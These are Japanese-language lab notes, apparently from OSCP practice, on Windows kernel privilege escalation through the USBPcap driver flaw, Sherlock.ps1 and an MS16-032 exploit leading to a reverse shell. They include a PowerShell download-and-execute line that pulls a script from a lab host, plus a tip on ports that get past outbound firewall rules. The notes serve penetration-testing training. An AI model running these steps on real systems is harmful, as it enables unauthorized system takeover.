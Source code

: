 # Windows Kernel Vulnerabilities

### USBPcap Case Study

カーネルドライバの脆弱性に依存した特権の昇格

システムレベルのソフトウェア（ドライバやカーネル自体など）をエクスプロイトしようとする場合、ターゲットのオペレーティングシステム、バージョン、アーキテクチャなど、いくつかの要因に注意する必要がある

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![image-20230106101828652](img/WindowsKernelVulunerabilities/image-20230106101828652.png)

![](img/WindowsKernelVulunerabilities/image-20230106101828652-1673224564911-23.png)

この時点で、Windows 7 SP1 x86のネイティブカーネル脆弱性を探し出し、それを使って特権を昇格させることができるが、**サードパーティのドライバを悪用する方がより一般的**



* ドライバを列挙する

  ```
  driverquery /v
  ```

  ```cmd
  powershell
  driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
  ```

  ※停止とマークされていても、カーネルメモリ空間にロードされているため、まだ対話できる可能性がある

* サードパーティ製品の脆弱性を検索する

  ```bash
  searchsploit USBPcap                                                                                  
  ------------------------------------------------------------------------ ---------------------------------
   Exploit Title                                                          |  Path
  ------------------------------------------------------------------------ ---------------------------------
  USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation          | windows/local/41542.c
  ------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

* 対象のバージョンを確認する

  ```
  Exploit Title    - USBPcap Null Pointer Dereference Privilege Escalation
  Date             - 07th March 2017
  Discovered by    - Parvez Anwar (@parvezghh)
  Vendor Homepage  - http://desowin.org/usbpcap/ 
  Tested Version   - 1.1.0.0  (USB Packet cap for Windows bundled with WireShark 2.2.5)
  Driver Version   - 1.1.0.0 - USBPcap.sys
  Tested on OS     - 32bit Windows 7 SP1 
  CVE ID           - CVE-2017-6178
  Vendor fix url   - not yet
  Fixed Version    - 0day
  Fixed driver ver - 0day
  ```

  以下powershellのコマンドでも確認可能

  ```powershell
  Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
  
  ----
  PS C:\Users\offsec.CLIENT251> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion,
  Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
  
  DeviceName               DriverVersion Manufacturer
  ----------               ------------- ------------
  VMware VMCI Host Device  9.8.6.0       VMware, Inc.
  VMware PVSCSI Controller 1.3.10.0      VMware, Inc.
  VMware SVGA 3D           8.16.1.24     VMware, Inc.
  VMware VMCI Bus Device   9.8.6.0       VMware, Inc.
  VMware Pointing Device   12.5.7.0      VMware, Inc.
  ```

  

* 該当バージョンのドライバがインストールされているか確認する

  ```
  cd "C:\Program Files"
  dir
  type USBPcap.inf
  ```

  ※ドライバディレクトリは`C:\Windows\System32\DRIVERS`の下にあることが多いので注意

* エクスプロイトコードをコンパイルする

  * windowsクライアントのGCCコンパイラを利用する方法

    ```
    C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
    
    C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1>echo off
    Microsoft Windows [Version 10.0.10240]
    (c) 2015 Microsoft Corporation. All rights reserved.
    
    C:\> gcc
    gcc: fatal error: no input files
    compilation terminated.
    
    C:\> gcc --help
    Usage: gcc [options] file...
    Options:
      -pass-exit-codes         Exit with highest error code from a phase.
      --help                   Display this information.
      --target-help            Display target specific command line options.
      --help={common|optimizers|params|target|warnings|[^]{joined|separate|undocumented}}[
                               Display specific types of command line options.
      (Use '-v --help' to display command line options of sub-processes).
      --version                Display compiler version information.
    ...
    ```

  * コンパイルする
  
    ![image-20230106102403706](img/WindowsKernelVulunerabilities/image-20230106102403706.png)
  
    ![](img/WindowsKernelVulunerabilities/image-20230106102403706.png)
  
  * 実行する
  
    ![image-20230106102420092](img/WindowsKernelVulunerabilities/image-20230106102420092.png)
  



## Sherlock.ps1

https://www.youtube.com/watch?v=kWTnVBIpNsE

脆弱性判定のpowerscriptモジュール. winpeasでもおそらくこのスクリプトをうごかしているのではないか。

* ファイルをコピーする

  ```bash
  cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1 ~/Documents/OSCP/LAB/10.11.1.50/ 
  ```

* 関数を検索する

  ```
  grep -i function Sherlock.ps1 
  ```

* 実行したい関数をSherlock.ps1の末尾に追加する

  ```
  vi Sherlock.ps1
  ```

  ![image-20230204233551297](img/WindowsKernelVulunerabilities/image-20230204233551297.png)

* powershellをメモリに読み込んで実行する

  ```powershell
  iex(new-object net.webclient).downloadstring('http://192.168.119.167/Sherlock.ps1')
  ```



## MS16-032

* 以下脆弱性が見つかる

  ```
  Title      : Secondary Logon Handle
  MSBulletin : MS16-032
  CVEID      : 2016-0099
  Link       : https://www.exploit-db.com/exploits/39719/
  VulnStatus : Appears Vulnerable
  ```

* powershell empireにcmd.exe用ではなくCLIでリバースシェルを取得できるソースコードがあり、それを編集する

  * 以下からコピーする

    ```
    /usr/share/powershell-empire/empire/server/data/module_source/privesc
    ```

  * `Invoke-MS16032.ps1`を編集する

    ![image-20230204233828295](img/WindowsKernelVulunerabilities/image-20230204233828295.png)

    パラメータが以下と定義されている。powershellの場合paramで定義したデータはオプションとして設定できる仕様

    <img src="img/WindowsKernelVulunerabilities/image-20230204233920367.png" alt="image-20230204233920367" style="zoom:50%;" />

  * 実行用のshell.ps1についてはnishangの`Invoke-PowerShellTCP.ps1`をコピーした。

    ![image-20230204234029031](img/WindowsKernelVulunerabilities/image-20230204234029031.png)

    ※4444だとファイアウォールに拒否されてしまっていた。443はアウトバンド許可されている

* シェルが実行されリバースシェルが取得できる

  ![image-20230204234147297](img/WindowsKernelVulunerabilities/image-20230204234147297.png)

  ![image-20230204234200141](img/WindowsKernelVulunerabilities/image-20230204234200141.png)

  ![image-20230204234207223](img/WindowsKernelVulunerabilities/image-20230204234207223.png)

  